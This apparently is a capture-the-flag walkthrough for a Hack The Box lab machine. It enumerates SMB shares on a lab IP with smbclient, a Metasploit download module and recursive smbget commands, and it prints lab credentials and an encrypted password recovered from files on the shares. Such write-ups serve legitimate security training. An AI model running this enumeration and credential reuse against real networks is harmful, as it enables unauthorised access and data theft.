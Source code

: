 ### Listing the shares:
```
$ smbclient  -L //10.10.10.178
Enter WORKGROUP\root's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        Secure$         Disk      
        Users           Disk      
SMB1 disabled -- no workgroup available
```



### You can do the following to access the shares:
```
$ smbclient //10.10.10.178/Data
            or            /Users
            or            /C$
            or			 /Secure$
```


### enum 01
```
$ smbclient //10.10.10.178/Users -U TempUser
```

### to download the files use:
`msf > use auxiliary/admin/smb/download_file`

or
`smbget  smb://username:password@ip/<share>/<path to file or folder>`
-R argument for folders

some interesting files contain the following:

#### file 01
```
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location:
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019
```

#### file 02
```
<File filename="C:\windows\System32\drivers\etc\hosts"/>
<File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt"/>
<File filename="C:\Users\C.Smith\Desktop\todo.txt"/>
```


#### file 03

```
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="ht>
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
```



#### more enumeration 02

```
smbget -R smb://TempUser:welcome2019@10.10.10.178/Secure$/IT/Carl/
```
to download all files
